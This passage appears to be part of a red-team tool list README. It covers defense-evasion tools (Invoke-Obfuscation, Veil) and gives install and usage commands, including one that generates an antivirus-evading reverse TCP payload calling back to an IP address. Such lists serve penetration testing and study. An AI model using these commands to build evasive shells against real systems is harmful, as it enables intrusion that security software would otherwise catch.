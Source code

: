[Blog - Exploring the Golden SAML Attack Against ADFS](https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs)

![image](https://user-images.githubusercontent.com/100603074/212204724-65da5505-3576-4e6d-91ab-989b96247182.png)

*Image used from https://www.orangecyberdefense.com/global/blog/cloud/exploring-the-golden-saml-attack-against-adfs*

Defense Evasion
====================

### [🔙](#tool-list)[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

A PowerShell v2.0+ compatible PowerShell command and script obfuscator. If a victim endpoint is able to execute PowerShell then this tool is great for creating heavily obfuscated scripts.

**Install:** 

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
```

**Usage:** 

```bash
./Invoke-Obfuscation
```

![image](https://user-images.githubusercontent.com/100603074/206557377-a522ab7a-5803-48b0-8f3e-d7d7b607e692.png)

### [🔙](#tool-list)[Veil](https://github.com/Veil-Framework/Veil)

Veil is a tool for generating metasploit payloads that bypass common anti-virus solutions.

It can be used to generate obfuscated shellcode, see the official [veil framework blog](https://www.veil-framework.com/) for more info.

**Install: (Kali)** 

```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

**Install: (Git)** 

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

**Usage:** 

```bash
# List all payloads (–list-payloads) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-payloads

# List all encoders (–list-encoders) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-encoders

# Generate a reverse tcp payload which connects back to the ip 192.168.1.20 on port 1234
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234

# List all payloads (–list-payloads) for the tool Evasion (-t Evasion)
./Veil.py -t Evasion --list-payloads

```